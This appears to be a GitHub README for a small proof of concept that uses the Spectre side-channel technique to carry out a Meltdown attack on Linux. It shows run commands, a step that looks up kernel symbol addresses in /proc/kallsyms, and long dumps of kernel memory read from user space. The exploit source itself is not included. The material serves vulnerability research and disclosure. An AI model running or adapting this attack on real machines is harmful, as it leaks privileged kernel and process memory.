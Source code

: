 Spectre-Based Meltdown Attack
=============================
Create a tiny Meltdown proof of concept (PoC) based on Spectre attack technique.


Expectations
------------
It is expected that the Spectre attack technique could be used to perform Meltdown attack as well. The [original Spectre paper proof of concept](https://spectreattack.com/spectre.pdf) was used as a basis for the work.


Example Usage
-------------
### Meltdown on Linux 3.13: no command line arguments
With no command line arguments, the program will try to read the content of address `0xffffffff81800040` which is the address of the Linux kernel 3.13 `linux_proc_banner` string, located inside the kernel space:

    a@b:~/p/spectre-meltdown$ gcc --version
    gcc (Ubuntu 5.4.1-2ubuntu1~16.04) 5.4.1 20160904
    [...]
    a@b:~/p/spectre-meltdown$ uname -a
    Linux b 3.13.0-85-generic #129-Ubuntu SMP Thu Mar 17 20:50:15 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

    a@b:~/p/spectre-meltdown$ ./spectre-meltdown-99
    0xffffffff81800040 = 0x25 ('%')
    0xffffffff81800041 = 0x73 ('s')
    0xffffffff81800042 = 0x20 (' ')
    0xffffffff81800043 = 0x76 ('v')
    0xffffffff81800044 = 0x65 ('e')
    0xffffffff81800045 = 0x72 ('r')
    0xffffffff81800046 = 0x73 ('s')
    0xffffffff81800047 = 0x69 ('i')
    0xffffffff81800048 = 0x6f ('o')
    0xffffffff81800049 = 0x6e ('n')
    0xffffffff8180004a = 0x20 (' ')
    0xffffffff8180004b = 0x25 ('%')
    0xffffffff8180004c = 0x73 ('s')
    0xffffffff8180004d = 0x20 (' ')
    0xffffffff8180004e = 0x28 ('(')
    0xffffffff8180004f = 0x62 ('b')
    0xffffffff81800050 = 0x75 ('u')
    0xffffffff81800051 = 0x69 ('i')
    0xffffffff81800052 = 0x6c ('l')
    0xffffffff81800053 = 0x64 ('d')
    0xffffffff81800054 = 0x64 ('d')
    0xffffffff81800055 = 0x40 ('@')
    0xffffffff81800056 = 0x6c ('l')
    0xffffffff81800057 = 0x67 ('g')
    0xffffffff81800058 = 0x77 ('w')
    0xffffffff81800059 = 0x30 ('0')
    0xffffffff8180005a = 0x31 ('1')
    0xffffffff8180005b = 0x2d ('-')
    0xffffffff8180005c = 0x33 ('3')
    0xffffffff8180005d = 0x32 ('2')
    0xffffffff8180005e = 0x29 (')')
    0xffffffff8180005f = 0x20 (' ')
    0xffffffff81800060 = 0x28 ('(')
    0xffffffff81800061 = 0x67 ('g')
    0xffffffff81800062 = 0x63 ('c')
    0xffffffff81800063 = 0x63 ('c')
    0xffffffff81800064 = 0x20 (' ')
    0xffffffff81800065 = 0x76 ('v')
    0xffffffff81800066 = 0x65 ('e')
    0xffffffff81800067 = 0x72 ('r')
    0xffffffff81800068 = 0x73 ('s')
    0xffffffff81800069 = 0x69 ('i')
    0xffffffff8180006a = 0x6f ('o')
    0xffffffff8180006b = 0x6e ('n')
    0xffffffff8180006c = 0x20 (' ')
    0xffffffff8180006d = 0x34 ('4')
    0xffffffff8180006e = 0x2e ('.')
    0xffffffff8180006f = 0x38 ('8')
    0xffffffff81800070 = 0x2e ('.')
    0xffffffff81800071 = 0x32 ('2')
    0xffffffff81800072 = 0x20 (' ')
    0xffffffff81800073 = 0x28 ('(')
    0xffffffff81800074 = 0x55 ('U')
    0xffffffff81800075 = 0x62 ('b')
    0xffffffff81800076 = 0x75 ('u')
    0xffffffff81800077 = 0x6e ('n')
    0xffffffff81800078 = 0x74 ('t')
    0xffffffff81800079 = 0x75 ('u')
    0xffffffff8180007a = 0x20 (' ')
    0xffffffff8180007b = 0x34 ('4')
    0xffffffff8180007c = 0x2e ('.')
    0xffffffff8180007d = 0x38 ('8')
    0xffffffff8180007e = 0x2e ('.')
    0xffffffff8180007f = 0x32 ('2')
    0xffffffff81800080 = 0x2d ('-')
    0xffffffff81800081 = 0x31 ('1')
    0xffffffff81800082 = 0x39 ('9')
    0xffffffff81800083 = 0x75 ('u')
    0xffffffff81800084 = 0x62 ('b')
    0xffffffff81800085 = 0x75 ('u')
    0xffffffff81800086 = 0x6e ('n')
    0xffffffff81800087 = 0x74 ('t')
    0xffffffff81800088 = 0x75 ('u')
    0xffffffff81800089 = 0x31 ('1')
    0xffffffff8180008a = 0x29 (')')
    0xffffffff8180008b = 0x20 (' ')
    0xffffffff8180008c = 0x29 (')')
    0xffffffff8180008d = 0x20 (' ')
    0xffffffff8180008e = 0x25 ('%')
    0xffffffff8180008f = 0x73 ('s')
    0xffffffff81800090 = 0xa ('
    ')
    0xffffffff81800091 = 0x0 ('')

### Meltdown on other Linux: address of `linux_proc_banner` as an argument
It is possible to run the PoC on another versions of Linux. To do so, an address of the `linux_proc_banner` must be passed as the command line argument.

The address of the structure could be found in `/proc/kallsym` as showed below, and the `root` privileges are needed to do so:

    kda@toster ~/workspace/tmp/spectre $ uname -a
    Linux toster 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

    kda@toster ~/workspace/tmp/spectre $ sudo cat /proc/kallsyms | grep linux_proc_banner
    ffffffff81a00060 R linux_proc_banner

    kda@toster ~/workspace/tmp/spectre $ ./spectre ffffffff81a00060
    0xffffffff81a00060 = 0x25 ('%')
    0xffffffff81a00061 = 0x73 ('s')
    0xffffffff81a00062 = 0x20 (' ')
    0xffffffff81a00063 = 0x76 ('v')
    0xffffffff81a00064 = 0x65 ('e')
    0xffffffff81a00065 = 0x72 ('r')
    0xffffffff81a00066 = 0x73 ('s')
    0xffffffff81a00067 = 0x69 ('i')
    0xffffffff81a00068 = 0x6f ('o')
    0xffffffff81a00069 = 0x6e ('n')
    0xffffffff81a0006a = 0x20 (' ')
    0xffffffff81a0006b = 0x25 ('%')
    0xffffffff81a0006c = 0x73 ('s')
    0xffffffff81a0006d = 0x20 (' ')
    0xffffffff81a0006e = 0x28 ('(')
    0xffffffff81a0006f = 0x62 ('b')
    0xffffffff81a00070 = 0x75 ('u')
    0xffffffff81a00071 = 0x69 ('i')
    0xffffffff81a00072 = 0x6c ('l')
    0xffffffff81a00073 = 0x64 ('d')
    0xffffffff81a00074 = 0x64 ('d')
    0xffffffff81a00075 = 0x40 ('@')
    0xffffffff81a00076 = 0x6c ('l')
    0xffffffff81a00077 = 0x67 ('g')
    0xffffffff81a00078 = 0x77 ('w')
    0xffffffff81a00079 = 0x30 ('0')
    0xffffffff81a0007a = 0x31 ('1')
    0xffffffff81a0007b = 0x2d ('-')
    0xffffffff81a0007c = 0x32 ('2')
    0xffffffff81a0007d = 0x31 ('1')
    0xffffffff81a0007e = 0x29 (')')
    0xffffffff81a0007f = 0x20 (' ')
    0xffffffff81a00080 = 0x28 ('(')
    0xffffffff81a00081 = 0x67 ('g')
    0xffffffff81a00082 = 0x63 ('c')
    0xffffffff81a00083 = 0x63 ('c')
    0xffffffff81a00084 = 0x20 (' ')
    0xffffffff81a00085 = 0x76 ('v')
    0xffffffff81a00086 = 0x65 ('e')
    0xffffffff81a00087 = 0x72 ('r')
    0xffffffff81a00088 = 0x73 ('s')
    0xffffffff81a00089 = 0x69 ('i')
    0xffffffff81a0008a = 0x6f ('o')
    0xffffffff81a0008b = 0x6e ('n')
    0xffffffff81a0008c = 0x20 (' ')
    0xffffffff81a0008d = 0x35 ('5')
    0xffffffff81a0008e = 0x2e ('.')
    0xffffffff81a0008f = 0x33 ('3')
    0xffffffff81a00090 = 0x2e ('.')
    0xffffffff81a00091 = 0x31 ('1')
    0xffffffff81a00092 = 0x20 (' ')
    0xffffffff81a00093 = 0x32 ('2')
    0xffffffff81a00094 = 0x30 ('0')
    0xffffffff81a00095 = 0x31 ('1')
    0xffffffff81a00096 = 0x36 ('6')
    0xffffffff81a00097 = 0x30 ('0')
    0xffffffff81a00098 = 0x34 ('4')
    0xffffffff81a00099 = 0x31 ('1')
    0xffffffff81a0009a = 0x33 ('3')
    0xffffffff81a0009b = 0x20 (' ')
    0xffffffff81a0009c = 0x28 ('(')
    0xffffffff81a0009d = 0x55 ('U')
    0xffffffff81a0009e = 0x62 ('b')
    0xffffffff81a0009f = 0x75 ('u')
    0xffffffff81a000a0 = 0x6e ('n')
    0xffffffff81a000a1 = 0x74 ('t')
    0xffffffff81a000a2 = 0x75 ('u')
    0xffffffff81a000a3 = 0x20 (' ')
    0xffffffff81a000a4 = 0x35 ('5')
    0xffffffff81a000a5 = 0x2e ('.')
    0xffffffff81a000a6 = 0x33 ('3')
    0xffffffff81a000a7 = 0x2e ('.')
    0xffffffff81a000a8 = 0x31 ('1')
    0xffffffff81a000a9 = 0x2d ('-')
    0xffffffff81a000aa = 0x31 ('1')
    0xffffffff81a000ab = 0x34 ('4')
    0xffffffff81a000ac = 0x75 ('u')
    0xffffffff81a000ad = 0x62 ('b')
    0xffffffff81a000ae = 0x75 ('u')
    0xffffffff81a000af = 0x6e ('n')
    0xffffffff81a000b0 = 0x74 ('t')
    0xffffffff81a000b1 = 0x75 ('u')
    0xffffffff81a000b2 = 0x32 ('2')
    0xffffffff81a000b3 = 0x29 (')')
    0xffffffff81a000b4 = 0x20 (' ')
    0xffffffff81a000b5 = 0x29 (')')
    0xffffffff81a000b6 = 0x20 (' ')
    0xffffffff81a000b7 = 0x25 ('%')
    0xffffffff81a000b8 = 0x73 ('s')
    0xffffffff81a000b9 = 0xa ('
    ')
    0xffffffff81a000ba = 0x0 ('')


### Spectre: pass `0` as a command line argument
To run Spectre proof of concept, pass `0` as a command line argument:

    a@b:~/p/spectre-meltdown$ ./spectre-meltdown-99 0
    0x601080 = 0x4d ('M')
    0x601081 = 0x79 ('y')
    0x601082 = 0x20 (' ')
    0x601083 = 0x70 ('p')
    0x601084 = 0x61 ('a')
    0x601085 = 0x73 ('s')
    0x601086 = 0x73 ('s')
    0x601087 = 0x77 ('w')
    0x601088 = 0x6f ('o')
    0x601089 = 0x72 ('r')
    0x60108a = 0x64 ('d')
    0x60108b = 0x0 ('')

Conclusions
-----------
The tiny (99 lines) proof of concept was created and successfully tested on few Linux kernel versions. So indeed, the Spectre attack technique could be successfully used for Meltdown attack.